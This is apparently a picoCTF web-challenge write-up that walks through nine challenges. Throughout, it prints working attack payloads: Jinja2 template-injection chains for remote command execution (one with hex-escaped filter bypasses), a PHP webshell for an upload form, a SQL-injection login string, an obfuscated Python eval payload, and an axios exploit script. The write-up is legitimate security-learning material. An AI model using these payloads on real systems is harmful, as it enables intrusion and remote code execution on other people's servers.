# Web challenges

---

## SSTI1

The name of the challenge already hints at the vulnerability we need to exploit, which is `SSTI (Server Side Template Injection)`. Accordingly, I tried the most common payload for this vulnerability is `{{2*2}}` to see how the server would respond.





This means that the `Jinja2-type payload` works. Next, I tried to achieve `RCE` using the `payload` to test 

```shell
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}  
```


and it really works



Next, I tried the `ls` command and was able to see the `flag`

```shell
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}  
```



```shell
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}  
```



`Flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}`

---

## SSTI2

In this challenge, the `vulnerability` is also `SSTI`, but the server has `filtered` the input to prevent unwanted elements.



After some time searching, I found a [website](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) that listed several methods to bypass the filter. I successfully tested one of them, and it seems the server blocks characters such as `.`, `_`, `[]`. Below is a valid payload used for exploitation.

```shell
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}  
```



`Flag: picoCTF{sst1_f1lt3r_byp4ss_e964f71b}`

---

## n0s4n1ty 1

This is a challenge with a `file upload vulnerability`. After interacting with the web, I was allowed to upload an image. I then tried injecting a `webshell` to `exploit` it and display everything at the root `/`.

```shell
<?php system("ls /"); ?>
```



and it words



At this point, I just needed to check what was inside `/root` and display it to complete the challenge.






And since it didn’t seem to be working, I tried uploading a full shell interface file instead.







`Flag: picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}`

--- 

## head-dump

In this challenge, I checked out the website and found a path leading to `api-docs`. There, I saw several common `APIs`, but one of them had a name similar to the challenge, so I tried sending a `curl` request to it.



```shell
curl -X GET http://verbal-sleep.picoctf.net:52587/heapdump
```



I saw that a lot of data was returned, so I combined it with the `grep` command to search for the string `pico` and successfully found the `flag`.

```shell 
curl -X GET http://verbal-sleep.picoctf.net:52587/heapdump | grep -i "pico"
```



`Flag: picoCTF{Pat!3nt_15_Th3_K3y_8635db4b}`

---

## Cookie Monster Secret Recipe

I found a login form and suspected it might be `vulnerable to SQL injection`, so I tried logging in with the `username`: `admin' or 1=1 --` ; and `password`: `' --`. Although it displayed `Access Denied`, the cookie contained some content that looked like `Base64`. After decoding it, I found it was the `flag`.





`Flag: picoCTF{c00k1e_m0nster_l0ves_c00kies_057BCB51}`

---

## 3v@l

After some time asking and `exploiting` from `chatGPT`, I found a payload:
```shell
getattr(__builtins__, "ev" + "al")("__import__('subprocess').getoutput(chr(99)+chr(97)+chr(116)+' '+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116))")
```
accordingly:
- `getattr(__builtins__, "ev" + "al")` calls the `eval` function `from __builtins__` without using the eval keyword directly.

- `__import__('subprocess').getoutput(`) executes a shell command and gets the result from that command. The getoutput method is a way to use `subprocess` to get the result of a command.

The `chr(99) + chr(97) + chr(116)` part converts the `ASCII` code to the string `cat` and further builds the command cat `/flag.txt` — the goal is to read the contents of the `flag.txt` file (if any) on the system.





`Flag: picoCTF{D0nt_Use_Unsecure_f@nctionsb95fffac}`

---

## WebSockFish

This is a `web socket` challenge that works between `client` and `server`, I looked in the `network` tab of the `dev tool` to see the activity, if I just make a move, an `eval xx` line will appear, which I exploited by changing the value and sending it to the server in the `console`.




when I increase the value, I will receive a new message `Are you sure about that move? :)`



here I `flipped` the value back to a negative number to get the `flag`



`Flag: picoCTF{c1i3nt_s1d3_w3b_s0ck3t5_c0789e29}`

---

## Apriti sesamo

In this challenge there was a suggestion about backup file so i added `~` after `url` and got nothing until i `checked` in source code and saw them commented out 



```php
<?php
 if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?>
```

Here is the code after I adjusted it a bit

```php
<?php
    if(isset($_POST["username"])&& isset($_POST["pwd"])){
        $yuf85e0677=$_POST["username"];
        $rs35c246d5=$_POST["pwd"];
        if($yuf85e0677==$rs35c246d5){
            echo "<br/>Failed! No flag for you;";
        }else{
            if(sha1($yuf85e0677)===sha1($rs35c246d5)){
                echo file_get_contents('../flag.txt');
            }else{
                echo "<br/>Failed! No flag for you;";
            }
        }
    }
?>
```

Accordingly, if `username` and `pwd` are the same, it will not return the `flag`, if they are different but the `sha-1 hash` is the same, it will read the content of the `flag`. At this point, I thought of `php hash collision` to try to `exploit`. Accordingly, to have `2 input` fields that are different in content but the same in hash, it is to treat each field as an `array`.



`Flag: picoCTF{w3Ll_d3sErV3d_Ch4mp_5292ca30}`

---

## Pachinko

---

### Overview

This challenge simulates a virtual CPU using WebAssembly and allows users to submit logic circuits for evaluation via the Express.js API. The server uses precompiled binaries to validate the circuit behavior based on expected input-output values ​​and responds with flags based on the correctness of the execution.

There are two main endpoints:

- `POST /check`: Accepts the user-submitted NAND circuit and checks its output.

- `POST /flag`: Only for administrators with knowledge of FLAG1 and FLAG2.

---

### Core Behavior

The server uses a WebAssembly-based CPU emulator to simulate program execution. The memory is set as follows:

- `0x0000` – Start of binary program

- `0x1000` – Output status

- `0x2000` – Input status

- `0x3000` – Serialization circuit (input1, input2, output triple)

After simulation, the CPU writes the result to `memory[0x1000]` and `memory[0x1001]`. The result is interpreted as a 16-bit value:

```js
result = memory[0x1000] | (memory[0x1001] << 8);

```

Depending on the `result`, the server responds with:

- `0x1337`: returns FLAG1
- `0x3333`: returns "wrong answer :("
- other values: returns an error code

---

### Vulnerability

The vulnerability lies in the lack of validation of the input/output locations of circuit ports during serialization. Specifically, the `serializeCircuit()` function writes user-supplied values ​​directly to memory without checking whether they overlap sensitive regions such as `0x1000`.

This allows an attacker to manipulate the output memory region (`0x1000`, `0x1001`) by creating a circuit with ports that use these addresses as input and setting the output field to `0x1337`.

---

### Exploit

I used The following script to exploit:

```js
const circuit = [
{
input1: 0x1000, // Low byte of the result
input2: 0x1001, // High byte of the result
output: 0x1337 // Target value to put into memory
}
];

``

This circuit will cause the CPU to "compute" the result of `0x1337` and write it directly into memory at the result location. The server will interpret this as a correct execution and return `FLAG1`.

``js
const axios = require('axios');

const baseUrl = 'http://activist-birds.picoctf.net:53085';

async function getFlag1() {
  try {
    const circuit = [
      {
        input1: 0x1000,  
        input2: 0x1001,  
        output: 0x1337  
      }
    ];

    const response = await axios.post(`${baseUrl}/check`, {
      circuit: circuit
    });

    console.log('Kết quả:', response.data);
  } catch (error) {
    console.error('Lỗi:', error.response?.data || error.message);
  }
}

getFlag1();
```
I successfully got the flag but it also ran quite a few times



`Flag: picoCTF{p4ch1nk0_f146_0n3_e947b9d7}`


